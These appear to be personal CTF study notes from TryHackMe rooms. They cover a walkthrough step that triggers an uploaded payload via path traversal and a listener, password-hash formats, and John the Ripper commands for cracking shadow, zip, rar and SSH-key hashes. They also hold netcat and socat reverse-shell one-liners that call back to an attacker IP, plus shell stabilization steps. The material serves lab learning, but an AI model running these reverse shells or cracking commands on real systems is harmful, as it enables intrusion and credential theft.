 7. Open a netcat listener and on `/admin`, try all files with `../content/<jpg>` until one is successful. If you were recording all the `.jpg` files in Burpsuite, one of new files is your exploit.

Hack the machine and grab the flag from /var/www/
```
cd /var/www
cat flag.txt
```
> THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}

## Hashing - Crypto 101
- Cryptanalysis : Attacking cryptography by finding a weakness in the underlying maths
- The salt is randomly generated and stored in the database, unique to each user.
  | Unix style password prefix  | Description 
  | -------                     | ----------- 
  | \$1$                      | md5crypt
  |  \$2$, \$2a$, \$2b$, \$2x$, \$2y$   | Bcrypt 
  | \$6$                  | sha512crypt 

## John the Ripper
- A hash cracking tool
- Use a hash-identifier `hash-id.py` to find the type of hash
- `john --format=[format] --wordlist=[path to wordlist] [path to file]`
- NThash is the hash format that modern Windows Operating System machines will store user and service passwords in. It's also commonly referred to as "NTLM" which references the previous version of Windows format for hashing passwords known as "LM", thus "NT/LM".
- `unshadow [path to passwd] [path to shadow]` crack /etc/shadow passwords
- In single crack mode, John uses the username to find possible passwords by slightly changing the username.
  - `john --single --format=[format] [path to file]`
  - prepend username to hash
- Custom rules can be defined in the `john.conf` file.
- `zip2john [options] [zip file] > [output file]`
- `rar2john [rar file] > [output file]`
- `ssh2john [id_rsa private key file] > [output file]`

## What the Shell?
- **Reverse shells** are when the target executes code that connects back to your computer.
- **Bind shells** are when you execute code that connects to the target computer.
- Interactive shells allow you to interact with programs after execution.
- Non-interactive shells do not and make up the majority of simple reverse and bind shells.
### Netcat Shell Stablization
1. `python3 -c 'import pty;pty.spawn("/bin/bash")`
2. `export TERM=xterm`
3. `stty raw -echo; fg`

### Reverse Shell
| Linux | Windows 
| ---------| -------
| A: `nc -lvnp <port>` | 
| T: `nc <local-ip> <port> -e /bin/bash` | `nc <local-ip> <port> -e "cmd.exe"`
| |
| A: `socat TCP-L:<port> -` |
| T: `socat TCP:<IP>:<port> EXEC: "bash -li"` | `socat TCP:<IP>:<port> EXEC: powershell.exe, pipes`
| |